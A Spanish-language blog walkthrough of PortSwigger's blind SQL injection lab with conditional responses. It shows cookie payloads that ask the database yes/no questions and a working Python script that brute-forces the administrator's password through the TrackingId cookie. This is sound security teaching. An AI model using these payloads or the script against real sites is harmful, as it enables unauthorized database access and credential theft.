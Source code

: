 ```yaml
---
title: Blind SQL Injection - Conditional Response
date: '2023-04-24'
tags: ['HACKING', 'SQL', 'SQL INJECTION', 'PYTHON', 'WEB']
draft: false
summary: Aplicando una inyección seremos capaces de hacerle preguntas de respuesta binaria a la base de datos, preguntas que tengan como respuesta un “Sí” o un “No”. Si somos capaces de hacer las preguntas correctas seremos capaces de extraer información de la base de datos aplicando fuerza bruta.
images: ['/static/images/sqli-conditional-response/blind-sqli-conditional-twitter-card.png']
---
```


![Query param](/static/images/sqli-conditional-response/blind-sqli-conditional-twitter-card.png)

[Introducción](#introduccion)
[Concepto del ataque](#concepto)
[Explotado la vulnerabilidad en el laboratorio](#explotando)  
[Automatización del ataque](#automatizando)  

<a name="introduccion"/>
## Introducción

En este articulo veremos como explotar un SQL Injection (SQLi) a ciegas, el hecho de que sea a ciegas significa que no podremos visualizar directamente datos en la página web, como sí lo hacíamos con el SQLi UNION Attack. Hay varios tipos de inyecciones a ciegas, en este caso, vamos a estar explotando una inyección de respuesta condicional. 

Antes de seguir leyendo, si nunca antes has explotado un SQLi UNION Attack ([https://naker-dev.vercel.app/blog/sql-injection-union-attack](https://naker-dev.vercel.app/blog/sql-injection-union-attack)) te recomiendo que empieces por ahí ya que entenderás mejor las inyecciones a ciegas.

Para hacer más visual el articulo usaremos uno de los laboratorios de PortSwigger ([https://portswigger.net/](https://portswigger.net/)) concretamente el laboratorio **[Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses).**

<a name="concepto"/>
## Concepto del ataque

En muchas ocasiones la inyección SQL no reflejará los datos de la BD en la página web, ni tampoco romperá la ejecución de la web (un error 500), simplemente la aplicación se comportará de forma diferente en función de si la consulta que inyectemos se resuelve como verdadera o como falsa. De ahí el nombre de inyección de respuesta condicional. 

Aplicando una inyección seremos capaces de hacerle preguntas de respuesta binaria a la base de datos, preguntas que tengan como respuesta un “Sí” o un “No”. Si somos capaces de hacer las preguntas correctas seremos capaces de extraer información de la base de datos aplicando fuerza bruta.

Como ejemplo ilustrativo, podríamos preguntarle a la BD: *¿La contraseña del usuario ‘administrator’ empieza por la letra ‘a’?* En caso de que la respuesta sea afirmativa ya sabríamos la primera letra de la contraseña, de forma iterativa podríamos seguir preguntando por el resto de posiciones hasta finalmente obtener la contraseña completa.

La forma en la que veremos la respuesta de la BD (si la respuesta es “Sí” o “No”) pueden ser varías: 

- Renderizar o no un texto en la web
- Renderizar o no una sección entera (la cabecera, el píe de la web, el menú de usuario, etc)
- Cargar o no una cookie
- Guardar o no una clave en el *localStorage/sessionStorage*
- …

La forma de poder determinar si la respuesta a la inyección es un “Sí” o un “No” pueden ser varías y a cada caso diferente, deberemos indagar manualmente para poder determinar que comportamiento de la web nos dará la respuesta de la inyección. En el ejemplo que explotaremos posteriormente quedará más claro este concepto.

<a name="explotando"/>
## Explotado la vulnerabilidad en el laboratorio

Previa explotación, debemos saber que el laboratorio nos da la estructura de las tablas de la BD para no tener que sacarlas por fuerza bruta. Sabemos que existe una tabla llamada `Users` que contiene un usuario llamado `adminitrator`. Toda está información podríamos extraerla nosotros mismos pero nos llevaría bastante tiempo.

La inyección en este caso la haremos sobre un campo de la *cookie.* El campo *trackingId* es vulnerable a SQLi. 

Si nos fijamos en la web veremos un texto: “Welcome back!”:

![Query param](/static/images/sqli-conditional-response/1.png)

Si inyectamos una consulta que se resuelva como verdadera, como por ejemplo:

`n2fI6yGTKRibLzj8' AND 1=1 -- -`

![Query param](/static/images/sqli-conditional-response/2.png)

El texto “Welcome back!” sigue siendo visible:

En caso de inyectar una consulta que se resuelva como falsa dejaremos de ver el texto:

`n2fI6yGTKRibLzj8' AND 1=2 -- -`

![Query param](/static/images/sqli-conditional-response/3.png)

¡Hemos encontrado una forma de interpretar las respuestas “Sí”/“No” por parte de nuestra BD!

Teniendo en cuenta que el objetivo del laboratorio es extraer la contraseña del usuario `administrator` podemos generar un *payload* para inyección SQL que le pregunte a la BD algo como *¿La contraseña del usuario ‘administrator’ empieza por la letra ‘a’?*

La sentencia SQL a inyectar quedaría algo así:

`n2fI6yGTKRibLzj8' AND (SELECT substring(password, 1, 1) FROM users WHERE username LIKE 'administrator') = 'a' -- -`

En caso de que la respuesta se resuelva como afirmativa veremos el texto “Welcome back!” en la pantalla, de lo contrario no lo veremos. De esta forma somos capaces de terminar de qué caracteres se compone la contraseña, iterando por cada posición del campo. 

**Hay que tener en cuenta que estamos haciendo las pruebas sobre una BD PostgreSQL, por eso usamos la función `substring` para extraer un carácter de una posición concreta del campo. En caso de ser otro motor de BD habría que adaptar esta parte de la consulta.**

<a name="automatizando"/>
### Automatización del ataque

Sería una locura intentar sacar por fuerza bruta todos los caracteres de la contraseña de forma manual por lo que haremos un pequeño script que automatice el ataque e itere sobre todos las posiciones de la contraseña probando diferentes caracteres que definiremos en un diccionario.

El script en este caso lo he hecho en Python:

```python
import requests
import string

dictionary = string.ascii_lowercase + string.digits #[a-z0-9] 
url = "https://0a4400f7035bc8938449ae2700620002.web-security-academy.net/filter?category=Gifts"
trackingId = "UXenCJxCQPYRW0EV"
session = "BHLKJiOKcd68WYjIyaXpzlTPMNdTPnnh"

def bruteForce(password_index):
	for char in dictionary:
		cookies = {
			"TrackingId": f"{trackingId}' AND (SELECT substring(password, {password_index}, 1) FROM users WHERE username LIKE 'administrator') = '{char}' -- -",
			"session": f"{session}"
		}
		r = requests.get(url=url, cookies=cookies)
		body = r.text
		if "Welcome back!" in body:
			return char
	return -1

def main():
	is_running=True
	password=""
	password_index = 1
	while(is_running):
		discovered_char = bruteForce(password_index)
		if(discovered_char == -1):
			is_running=False
			break
		password = password + discovered_char
		password_index = password_index + 1
		print(password)

if __name__ == "__main__":
	main()
```

En este caso usamos un diccionario que contiene letras minúsculas de las a a la z y números del 0 al 9. Habría que adaptar el diccionario según el caso concreto.

El resultado del script vendría a ser algo similar a esto:

![Query param](/static/images/sqli-conditional-response/4.png)

La contraseña debería ser el último output del script `rqjydfesdyw9t5v07n2l`. Cabe destacar que el script se podría limpiar y mejorar para que no arroje tanta información incompleta pero para el caso nos vale de sobra.

¡Solved!

![Query param](/static/images/sqli-conditional-response/5.png)

Gracias por leer.